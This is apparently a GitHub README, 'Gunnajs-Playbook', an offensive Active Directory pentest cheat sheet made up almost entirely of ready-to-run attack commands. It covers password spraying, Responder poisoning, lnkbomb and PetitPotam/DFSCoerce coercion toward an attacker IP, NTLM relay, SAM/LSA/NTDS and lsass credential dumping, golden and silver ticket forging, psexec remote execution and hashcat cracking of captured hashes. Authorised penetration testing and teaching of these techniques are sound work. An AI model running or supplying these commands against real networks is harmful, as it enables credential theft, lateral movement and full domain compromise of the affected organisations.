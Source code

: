 # Gunnajs-Playbook
How to pentest like a Gunnaj

![alt text](https://github.com/GunzyPunzy/Gunnajs-Playbook/blob/main/anfader.jpg)

# Toolbox
### NMAP
https://nmap.org/

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
<details>
  <summary> Installation </summary> 

  ```bash
  git clone https://github.com/lefayjey/linWinPwn
  cd linWinPwn; chmod +x linWinPwn.sh
  ```
  ```bash
  chmod +x install.sh
  ./install.sh
  ```  
</details>

### BloodHound
https://github.com/BloodHoundAD/BloodHound
<details>
  <summary> Installation </summary> 
  
  ```bash
  apt-get install bloodhound
  ```
  ```bash
  neo4j console
  ```
  #### Navigate to http://localhost:7474/ 
</details>

### Responder
https://github.com/lgandx/Responder

### lnkbomb
https://github.com/dievus/lnkbomb
<details>
  <summary> Installation </summary> 

  #### Install prerequirements
  ```bash
  pip install -r requirements.txt
  ```
  #### Clone this repo
  ```bash
  git clone https://github.com/dievus/lnkbomb
  ```
</details>

### PetitPotam
https://github.com/topotam/PetitPotam

### DFSCoerce
https://github.com/Wh04m1001/DFSCoerce

### CrackMapExec
https://github.com/Porchetta-Industries/CrackMapExec

### Impacket
https://github.com/fortra/impacket

### pypykatz
https://github.com/skelsec/pypykatz
<details>
  <summary> Installation </summary> 

  #### Install prerequirements
  ```bash
  pip3 install minidump minikerberos aiowinreg msldap winacl
  ```
  #### Clone this repo
  ```bash
  git clone https://github.com/skelsec/pypykatz.git
  cd pypykatz
  ```
  #### Install it
  ```bash
  python3 setup.py install
  ```
</details>

### breach-parse
https://github.com/hmaverickadams/breach-parse

### PRET
https://github.com/RUB-NDS/PRET
<details>
  <summary> Installation </summary> 
  
  ```bash
  git clone https://github.com/RUB-NDS/PRET && cd PRET
  ```
  ```bash
  python -m pip install colorama pysnmP
  ```
</details>

## Wordlists
### Generate wordlist
https://zzzteph.github.io/weakpass/

### Top 10 million
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)

### Crackstation
https://crackstation.net/files/crackstation.txt.gz (14.6 GB)

### Large p-list
https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)

### Rockyou2021
https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)
 
# Network enumeration
<details>
  <summary> NMAP </summary> 
  
  ### Nmap
  #### Ping scan
  ```bash
  sudo nmap -sP -p -oN <output.txt> <IP/mask>
  ```

  #### Full scan
  ```bash
  sudo nmap -PN -sC -sV -p- -oN <output.txt> <IP/mask>
  ```

  #### smb vuln scan
  ```bash
  sudo nmap -PN --script smb-vuln* -p139,445 -oN <output.txt> <IP/mask>
  ```

  ### Find DC IP
  #### Show domain name and DNS
  ```bash
  sudo mncli dev show eth0
  ```

  #### Show DC IP
  ```bash
  nslookup -type=SRV _ldap._tcp.dc._msdcs.<AD_domain>
  ```

  #### Show DC controllers in cmd
  ```bash
  nltest /dclist:<domainname>
  ```
</details>

# Acitve directory enumeration
<details>
  <summary> linWinPwn </summary> 
  
  ### Unauthenticated
  - Module ad_enum
      - RID bruteforce using crackmapexec
      - Anonymous enumeration using crackmapexec, enum4linux-ng, ldapdomaindump, ldeep
      - Pre2k authentication check on collected list of computers
  - Module kerberos
      - kerbrute user spray
      - ASREPRoast using collected list of users (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Blind Kerberoast
      - CVE-2022-33679 exploit
  - Module scan_shares
      - SMB shares anonymous enumeration on identified servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on identified servers
      - Check for ms17-010, zerologon, petitpotam, nopac, smb-sigining, ntlmv1, runasppl weaknesses
  ```bash
   sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -M user <output_dir>
  ```

  ### With AD-user credentials 
  - DNS extraction using adidnsdump
  - Module ad_enum
      - BloodHound data collection
      - Enumeration using crackmapexec, enum4linux-ng, ldapdomaindump, windapsearch, SilentHound, ldeep
          - Users
          - MachineAccountQuota
          - Password Policy
          - Users' descriptions containing "pass"
          - ADCS
          - Subnets
          - GPP Passwords
          - Check if ldap-signing is enforced, check for LDAP Relay
          - Delegation information
      - crackmapexec find accounts with user=pass 
      - Pre2k authentication check on domain computers
      - Extract ADCS information using certipy and certi.py

  - Module kerberos
      - kerbrute find accounts with user=pas
      - ASREPRoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Targeted Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
  - Module scan_shares
      - SMB shares enumeration on all domain servers using smbmap and cme's spider_plus
      - KeePass files and processes discovery on all domain servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on all domain servers
      - Check for ms17-010, ms14-068, zerologon, petitpotam, nopac, smb-signing, ntlmv1, runasppl weaknesses
  - Module mssql_enum
      - Check mssql privilege escalation paths
  ```bash
  sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <AD_password> -o <output_dir>
  ```
</details>
  
## Password spray
### Spray a password on a user list
```bash

crackmapexec smb <Domain_Controller_IP> -u users.txt -p <password> --continue-on-success
```
# MITM
<details>
  <summary> Responder </summary> 
  
  ### Kickstart responder
  ```bash
  responder -I eth0
  ```

  ### Force lm downgrade
  ```bash
  responder -I eth0 --lm
  ```
  
  ### DHCP poisining
  ```bash
  responder -I eth0 -d
  ```
 </details>
 <details>
  <summary> lnkbomb </summary> 
  
  ### Create a lnk file for a share with read/write rights
  ```bash
  python3 lnkbomb.py -t <target_IP> -a <attacker_IP> -s Shared -u <AD_user> -p <AD_password> -n <server_name> --windows
  ```
   
  ### Remove the lnk file
  ```basb
  python3 lnkbomb.py -t <target_IP> -a <attacker_IP> -s Shared -u <AD_user> -p <AD_password> -n <server_name> --windows -r <file_name.url>
  ```
    
</details>
<details>
  <summary> Crackmapexec NTLM-relay </summary>   

  ### Evaluate no smb-signing and create an IP txt file for TLMRelayx
  ```bash
  crackmapexec smb <IPs> --gen-relay-list <outputIPs.txt>
  ```

  ### NTLMRelayx
  ```bash
  sudo python3 ntlmrelayx.py -smb2support -tf <outputIPs.txt>
  ```

  ### Disbale SMB and HTTP in Responder.conf
  ```bash
  [Responder Core]

  ; Servers to start
  SQL = On
  SMB = Off
  RDP = On
  Kerberos = On
  FTP = On
  POP = On
  SMTP = On
  IMAP = On
  HTTP = Off
  HTTPS = On
  DNS = On
  LDAP = On
  DCERPC = On
  WINRM = On
  SNMP = Off
  ```
</details>

<details>
  <summary> PetitPotam </summary> 
  
  ### Force NTLM authentication
  ```bash
  sudo python3 Petitpotam.py -d <Domain_Name> -u <AD_user> -p <AD_password> <attacker_IP> <target_IP>
  ```
</details> 
  
<details>
  <summary> DFSCoerce </summary> 
  
  ### Force NTLM authentication
  ```bash
  sudo python3 dfscoerce.py -d <Domain_Name> -u <AD_user> -p <AD_password> <attacker_IP> <target_IP>
  ```
</details> 
  
# Credential dumping
<details>
  <summary> linWinPwn </summary> 
  
### With administrator Account (using password, NTLM hash or Kerberos ticket)
- All of the "Standard User" checks
- Module pwd_dump
    - LAPS and gMSA dump
    - secretsdump on all domain servers
    - NTDS dump using impacket, crackmapexec and certsync
    - Dump lsass on all domain servers using: procdump, lsassy, nanodump, handlekatz, masky 
    - Extract backup keys using DonPAPI, HEKATOMB
```bash
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -d <AD_domain> -u <AD_user> -p <AD_password> or <hash_LM:NT]> or <kerbticket[./krb5cc_ticket]> -o <output_dir>
```
</details> 
  
<details>
  <summary> CrackMapExec local authentication </summary> 
  
  ### Dump SAM on local computer
  ```bash
  sudo crackmapexec smb <target_IP> -u <username> -H <hash_NT]> --local-auth --sam
  ```
  
   ### Dump LSA on local computer
  ```bash
  sudo crackmapexec smb <target_IP> -u <username> -H <hash_NT]> --local-auth --lsa
  ```
</details> 
  
## pypykatz
### Examine lsass dump
```bash
pypykatz lsa minidump lsass.DMP
```

# golden and silver tickets
#### Get user SID value by using the Windows Terminal
```cmd
wmic useraccount where name="USER" get sid
```

#### Silver ticket
```bash
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> -spn <service>/<AD_domain>l <user>
```
#### Golden ticket
```bash
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> <user>
```
#### Set the ticket for impacket use
```bash
export KRB5CCNAME=<TGS_ccache_file>
```

#### List tickets
```bash
klist
```

#### Execute remote commands with any of the following by using the TGT
```bash
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

## SMB VEV
### Mount share
```bash
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<AD_domain>
```

### Unmount share
```bash
sudo umount <./folder>
```

### Search for keywords in files
```bash
grep -i <keyword> *
```

# Printers
<details>
  <summary> PRET </summary> 

  ### Nmap printers
  ```bash
  nmap -p 9100 <IP/mask>
  ```
  ### cheat sheet
  ```bash
  http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet
  ```
  ### Kickstart PRET 
  ```bash
  pret.py target {ps,pjl,pcl}
  ```
</details>

## Hash cracking
<details>
  <summary> Hashcat </summary> 
  
  ### LM
  ```bash
  hashcat64.exe -m 3000 -a 3 LM-hashes.txt -o cracked.txt
  ```

  ### NTLM
  ```bash
  hashcat64.exe -m 1000 -a 3 NTLM-hashes.txt -o cracked.txt
  ```

  ### NTLMv1
  ```bash
  hashcat64.exe -m 5500 -a 3 NTLMv1-hashes.txt -o cracked.txt
  ```

  ### NTLMv2
  ```bash
  hashcat64.exe -m 5600 -a 0 NTLMv2-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos ASREP
  ```bash
  hashcat64.exe -m 18200 -a 0 asrep-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS
  ```bash
  hashcat64.exe -m 13100 -a 0 krb5tgs-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES128
  ```bash
  hashcat64.exe -m 19600 -a 0 krb5tgsaes128-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES256
  ```bash
  hashcat64.exe -m 19700  -a 0 krb5tgsaes256.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 17, Pre-Auth
  ```bash
  hashcat64.exe -m 19800  -a 0 krb5tetype17.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 18, Pre-Auth
  ```bash
  hashcat64.exe -m 19900  -a 0 krb5tetype18.txt <passlist.txt> -o cracked.txt
  ```

  ### MsCache 2 (slow af)
  ```bash
  hashcat64.exe -m 2100 -a 0 mscache2-hashes.txt <passlist.txt> -o cracked.txt
  ```
</details>
